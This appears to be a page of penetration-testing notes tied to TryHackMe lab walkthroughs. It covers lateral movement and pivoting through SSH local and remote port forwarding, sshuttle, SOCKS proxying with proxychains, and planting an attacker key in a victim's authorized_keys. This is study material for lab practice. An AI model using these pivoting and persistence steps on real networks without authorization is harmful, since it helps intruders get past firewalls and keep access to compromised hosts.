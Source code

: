 # Lateral Movement and Pivoting

## SSH Proxy Chaining

### SSH Local Port Forwarding

**Examples**

[game-zone.md](../../walkthroughs/tryhackme/game-zone.md "mention")[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Allows us to gain access to the service running on port 10000 from Kali that was only accessible to the victim from their machine.

**Kali**

```
ssh -L 10000:localhost:10000 $USERNAME@$VICTIM
Password: $ASSWORD
```

### SSH Remote Port Forwarding

**Examples**

&#x20;[#ssh-remote-port-forwarding](../../walkthroughs/tryhackme/lateral-movement-and-pivoting.md#ssh-remote-port-forwarding "mention")

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

<figure><img src="../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

<figure><img src="../../.gitbook/assets/image (112) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
useradd tunneluser
passwd tunneluser
```

**Victim**

```
ssh tunneluser@$KALI -R 8888:thmdc.za.tryhackme.com:80 -L *:1990:127.0.0.1:1990 -L *:1029:127.0.0.1:1029 -N
```



## sshuttle

**Examples**

[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Kali**

```
apt install sshuttle
sshuttle -r $USERNAME@$VICTIM 127.0.0.1/24
Password: $PASSWORD
```

### SSH

**Examples**

[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

copy paste id\_rsa.pub from Kali to the Victim server

```
copy id_rsa.pub to /home/$VICTIM/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 $USERNAME@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40) (4).png" alt=""><figcaption></figcaption></figure>

Found




